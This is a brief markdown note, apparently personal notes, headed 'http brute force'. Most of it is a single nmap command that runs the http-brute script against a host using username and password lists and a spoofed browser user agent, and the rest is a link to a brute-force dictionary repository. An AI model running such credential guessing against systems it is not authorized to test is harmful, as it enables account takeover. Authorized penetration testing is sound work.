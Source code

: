# http brute force
```
sudo nmap -p443 -vvv --script http-brute yourhost.com --script-args http-brute.hostname=yourhost.com,http-brute.path=/,userdb=usernames.txt,passdb=7-more-passwords.txt,http-brute.method=GET,http.useragent='Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36'
```

## Dictionary
https://github.com/duyet/bruteforce-database.git

